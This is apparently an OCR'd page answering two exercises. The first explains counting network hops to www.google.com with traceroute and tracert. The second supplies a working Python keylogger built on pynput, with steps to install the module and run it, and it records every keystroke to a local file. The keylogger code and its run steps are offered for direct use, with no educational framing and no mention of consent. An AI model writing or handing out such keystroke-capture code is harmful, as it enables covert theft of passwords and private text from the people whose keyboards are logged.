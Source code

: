 
*1. Find Number of Hops to www.google.com*
Use the traceroute (Linux/macOS) or tracert (Windows) command.

#### *On Linux/macOS:*
bash
traceroute www.google.com
#### *On Windows:*

cmd
tracert www.google.com
The *number of hops* is the number of lines (usually minus the first one if it’s your own router). For example:
1   <local router>
2   ...
3   ...
...
10  <final hop: google>
So, *10 hops*.

### *2. Simple Keylogger in Python*

If you're using *Windows/Linux*, here's a basic version that logs keystrokes:

#### *Python Code:*

python
from pynput.keyboard import Listener

def log_key(key):
    with open("keylog.txt", "a") as f:
        try:
            f.write(f"{key.char}")
        except AttributeError:
            f.write(f" [{key}] ")

with Listener(on_press=log_key) as listener:
    listener.join()


#### *Steps:*

1. Save it as keylogger.py
2. Install the required module:

bash
pip install pynput


3. Run it:

bash
python keylogger.py


It will log every key pressed into keylog.txt.
